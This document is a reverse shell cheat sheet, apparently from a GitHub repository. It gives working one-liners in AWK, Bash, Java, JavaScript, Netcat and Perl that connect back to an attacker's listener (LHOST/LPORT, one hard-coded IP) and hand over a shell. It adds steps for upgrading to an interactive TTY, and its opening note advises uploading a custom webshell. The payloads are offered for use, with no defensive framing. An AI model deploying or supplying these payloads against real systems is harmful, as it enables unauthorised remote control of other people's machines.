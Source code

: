 **Note: If prebuilt webshells are not processing reverse shell payloads try to upload our own webshell and try achieving reverse shell IMP Note: use bash -c "rev shell payload here" if regular ones didnt work**

## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/192.168.45.215/4444";while(42) { do{ printf"shell>" | & s; s | & getline c; if(c){ while ((c | & getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## BASH
```
bash -i >& /dev/tcp/LHOST/LPORT 0>&1  

0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/LHOST/LPORT && while read line 0<&5; do $line 2>&5 >&5; done
```
## JAVA
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/LHOST/LPORT;cat <&5 | while read line; do \$line 2>& 5 >&5; done"] as String[]); p.waitFor()
```
## JAVASCRIPT
```
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh",[]);varclient=newnet.Socket(); client.connect(LPORT, "LHOST", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```
## NETCAT
```
nc -e /bin/sh LHOST LPORT  

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh-i 2>&1|nc LHOST LPORT >/tmp/f  

rm -f backpipe; mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc LHOST LPORT 1>/tmp/backpipe 

rm -f backpipe; mknod /tmp/backpipe p && nc LHOST LPORT 0<backpipe | /bin/bash 1>backpipe
```
## PERL
```
perl -e 'use Socket;$i="LHOST"; 

$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))) {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Spawn TTY
Get Interactive Shell  
```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
Ctrl+z
ps -p $$
change to bash  
stty raw -echo  
fg
reset (wait a few seconds before entering this) 
export TERM=xterm
```